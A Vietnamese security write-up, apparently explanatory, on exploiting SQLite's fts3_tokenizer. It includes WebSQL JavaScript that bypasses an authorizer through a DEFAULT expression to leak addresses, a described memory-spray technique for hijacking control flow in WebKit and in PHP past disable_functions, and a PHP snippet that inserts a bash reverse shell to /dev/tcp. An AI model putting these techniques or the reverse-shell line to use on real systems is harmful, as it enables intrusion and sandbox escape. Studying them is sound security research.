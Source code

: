 ```js
var db = openDatabase(...);
var sql = "hex(fts3_tokenizer('simple'))";
db.transaction(function(tx) {
  tx.executeSql('DROP TABLE IF EXISTS BAD;');
  tx.executeSql('CREATE TABLE BAD(id, x DEFAULT(' + sql + '));'); // <-- bypass
  tx.executeSql('INSERT INTO BAD(id) VALUES (1);');
  tx.executeSql('SELECT x FROM BAD LIMIT 1;', [], function(tx, results) {
    var val = results.rows.item(0).x;
  });
}, function(err) { log(err.message) });
```

Đoạn mã trên mở một cơ sở dữ liệu WebSQL trong trình duyệt và xây dựng một biểu thức SQL dưới dạng chuỗi: `hex(fts3_tokenizer('simple'))`. Trong một `transaction` nó tạo lại bảng `BAD` với hai cột `id` và `x`, ở đó `x` được khai báo có giá trị mặc định là chính biểu thức trên `(DEFAULT(...))`. Khi chèn một hàng mới chỉ cung cấp `id`, SQLite sẽ đánh giá biểu thức `DEFAULT` để tính giá trị của `x` và do đó thực thi `fts3_tokenizer('simple')` trong ngữ cảnh nội bộ của engine; kết quả (đã được chuyển sang hex) sẽ được lưu vào cột `x`. Sau đó mã `SELECT` đọc lại cột `x` từ hàng vừa chèn và lấy giá trị đó về JavaScript qua `results.rows.item(0).x`, tức là attacker có thể thu được kết quả trả về của hàm nội bộ. Vấn đề bảo mật nằm ở chỗ khai thác dùng biểu thức `DEFAULT` để buộc engine chạy một hàm vốn có thể bị `authorizer` chặn nếu gọi trực tiếp; bằng cách này kẻ tấn công có thể gây ra rò rỉ thông tin nội bộ hoặc - khi kết hợp với các lỗ hổng khác - dẫn tới dereference con trỏ không an toàn và hậu quả nghiêm trọng hơn.

## fts3_tokenizer code execution on browser
- SQLite3 được link tĩnh trong binary của WebKit, nên `select fts3_tokenizer('simple')` có thể rò rỉ địa chỉ base của WebKit/SQLite.
- Từ leak đó có thể tính được địa chỉ quan trọng 
- Kẻ tấn công có thể spray cấu trúc `sqlite3_tokenizer_module`, đặt callback `xCreate` trỏ tới gadget pivot trên stack, rồi gọi `select fts3_tokenizer('simple', x'...')` để làm engine dereference con trỏ và chi phối luồng điều khiển (control PC).

## fts3_tokenizer code execution in PHP

Administrator hay dùng `disable_functions` (vd. `exec`, `passthru`, `shell_exec`, `system`, `proc_open`, `popen`,...) để chặn webshells, nhưng đó không phải sandbox thực sự - nếu attacker có cách thực thi mã native trong tiến trình PHP thì mọi ràng buộc PHP có thể bị vượt qua.

Trên LAMP, `libphp` và `libsqlite3` thường được load dưới dạng shared libraries (không link tĩnh), và nếu attacker có một leak địa chỉ từ `fts3_tokenizer('simple')` họ có thể suy ra map của các thư viện này (dùng thông tin version + offset cố định).

Khi biết được base address của thư viện, attacker có thể “spray” (điền) một cấu trúc `sqlite3_tokenizer_module` giả vào vùng nhớ mà engine sẽ đọc, chỉnh trường callback (ví dụ `xCreate`) trỏ đến một gadget pivot trên stack, và rồi gọi `select fts3_tokenizer('simple', x'...')` để khiến engine dereference con trỏ đó - nếu thành công thì có khả năng chi phối luồng điều khiển và thực thi mã native trong tiến trình PHP.

Không có “stack pivot gadget” hoàn hảo ở callback xCreate, nhưng callback xOpen có thể nhận đối số từ mệnh đề `INSERT`.

```sql
$db->exec("select fts3_tokenizer('simple', x'$spray_address');
           create virtual table a using fts3;
           insert into a values('bash -c \"bash>/dev/tcp/127.1/1337 0<&1\"')");
```
